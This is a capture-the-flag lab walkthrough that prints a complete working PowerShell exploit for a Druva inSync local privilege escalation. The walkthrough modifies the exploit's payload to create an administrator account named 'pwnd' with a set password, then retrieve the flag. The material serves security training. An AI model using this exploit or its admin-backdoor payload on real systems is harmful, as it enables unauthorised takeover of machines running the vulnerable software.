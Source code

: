 Initially published by Matteo Malvica here, the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. 
For your convenience, here is the original exploit's code:

$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at C:\tools\Druva_inSync_exploit.txt). 
Note that the exploit's default payload, specified in the $cmd variable, will create a user named pwnd in the system, but won't assign him administrative privileges, 
so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:

net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
This will create user pwnd with a password of SimplePass123 and add it to the administrators' group. 
If the exploit was successful, you should be able to run the following command to verify that the user pwnd exists and is part of the administrators' group:

Command Prompt
PS C:\> net user pwnd
User name                    pwnd
Full Name
Account active               Yes
[...]

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
As a last step, you can run a command prompt as administrator:

Run Command Prompt as Pwnd

When prompted for credentials, use the pwnd account. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command type 
C:\Users\Administrator\Desktop\flag.txt.
